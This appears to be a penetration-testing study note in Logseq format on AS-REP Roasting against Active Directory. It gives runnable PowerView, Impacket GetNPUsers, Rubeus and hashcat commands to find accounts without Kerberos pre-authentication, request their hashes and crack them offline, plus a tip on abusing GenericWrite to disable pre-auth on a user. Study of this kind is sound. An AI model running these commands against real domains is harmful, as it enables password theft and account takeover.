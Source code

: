 alias:: ASREPRoast

public:: true

- In case the [Kerberos Pre-Authentication](((655b158a-a666-41e0-8076-e59942a7bb20))) is not enabled for one or more domain users, an [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38))) can be forged without knowing their password (or the hash) and sent to KDC on their behalf.
- Once the [AS-REP](((655b1795-7a37-4e7f-b428-6c9a34ab2cbf))) is returned from the domain controller, [the encrypted part of the response](((655a201b-448f-45dc-a8b7-2c8978dde0c2))) can be brute-forced offline to retrieve the user password.
- #+BEGIN_NOTE
  Please note that in order to execute most of the following commands you need be able to query the DC. Hence, you need access to a valid domain user.
  #+END_NOTE
	- From Windows via PowerView
		- Retrieve the list of users with [Kerberos Pre-Authentication disabled](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainUser/).
		  id:: 655cf631-e9b4-4a1f-99d0-45c801c69f8c
		  ```powershell
		  Get-DomainUser -KerberosPreuthNotRequired
		  ```
		  Retrieve the list of users with Kerberos Pre-Authentication disabled **and don't have an expired password**.
		  ```powershell
		  Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED
		  ```
	- From Linux via [[Impacket GetNPUsers]]
		- id:: 5971e61f-2ed6-4dd2-91a6-1752dfb51de7
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
		  ```
- id:: 655cf4a9-95ae-4eb8-be69-cd1fb9b251c6
  #+BEGIN_TIP
  If you have GenericWrite/GenericAll rights over a target user, you can maliciously [modify their userAccountControl](https://learn.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) to [not require preauth](((655b158a-a666-41e0-8076-e59942a7bb20))), use [[AS-REP Roasting]] , and then reset the value.
  #+END_TIP
- Retrieve ASREPRoast hashes
	- From Linux with [[Impacket GetNPUsers]]
		- id:: 655cf20b-a6e7-4003-8049-8d922905d0b1
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
		  ```
			- `-request` - is specified to request the [TGT](((655a4269-21dc-4947-a21d-5c89e404b561))).
			- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
			- `-outputfile hashes.asreproast` - file to save captured hashes.
				- Default output is for [[Hashcat]]. The generate [[JTR]] compatible hash use `--format john`
	- From Windows with [[Rubeus]]
		- id:: 655cf178-e37d-4ab0-9e2b-e16c2ff7c94f
		  ```powershell
		  .\Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.asreproast
		  ```
			- By default only users that have the property [*Do not require Kerberos preauthentication*](((655b158a-a666-41e0-8076-e59942a7bb20))) set are processed. For the full `asreproast` command usage [check here](https://github.com/GhostPack/Rubeus#asreproast).
			- `/format:hashcat` - Generate [[Hashcat]] compatible hash, the default output is for [[JTR]].
			- `/outfile:` - file to save captured hashes.
- Crack **Kerberos 5 AS-REP** hashes via [[Hashcat]] with the [`-m 18200`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655cd6cd-968a-4756-b77f-35c47110ad33
  ```bash
  sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 18200` - specifies the correct mode
	- `hashes.asreproast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali